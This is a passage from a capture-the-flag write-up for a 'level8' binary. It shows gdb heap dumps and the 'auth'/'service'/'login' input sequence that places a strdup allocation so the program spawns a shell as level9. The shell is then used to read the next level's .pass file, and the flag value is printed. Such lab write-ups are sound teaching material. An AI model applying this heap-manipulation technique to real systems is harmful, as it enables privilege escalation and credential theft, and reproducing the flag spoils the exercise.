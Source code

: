 12. We almost got it! The `service\n` input will set `buffer = 'servi'`, `auth_cpy = 'ce'` and `svc_dup = '\n'`, so the `strdup` is called with `\n`, which is internally `malloc`ed, and pushed on the `heap` at `0x0804a018`, but we want `0x0804a028`, so 1 more call is required.
    
    ```bash
    > (gdb) c
    Continuing.
    0x804a008, 0x804a018 
    service
    
    Breakpoint 1, 0x08048574 in main ()
    
    > (gdb) x/16x $sp
    0xbffff690:	0xbffff6b7	0x00000080	0xb7fd1ac0	0xb7fd0ff4
    0xbffff6a0:	0xbffff6ee	0xbffff6ef	0x00000001	0xffffffff
    0xbffff6b0:	0x76726573	0x0a656369	0x00000000	0xb7ff3fec
    0xbffff6c0:	0xbffff774	0x00000000	0x00000000	0xb7e5ec73
    > (gdb) x/16x 0x0804a000
    0x804a000:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a010:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a020:	0x00000000	0x00000011	0x0000000a	0x00000000
    0x804a030:	0x00000000	0x00020fd1	0x00000000	0x00000000
    ```
    
13. Yes! Should be good now. All we need now is to input `login` and we should have a shell prompt.
    
    ```bash
    > (gdb) c
    Continuing.
    0x804a008, 0x804a028 
    login
    $ 
    ```
    
14. It works! Get the flag!
    
    ```bash
    > ./level8 
    (nil), (nil) 
    auth 
    0x804a008, (nil) 
    service
    0x804a008, 0x804a018 
    service
    0x804a008, 0x804a028 
    login
    $ whoami
    level9
    $ pwd
    /home/user/level8
    $ cat /home/user/level9/.pass
    c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
    ```
    

## Documentation

- None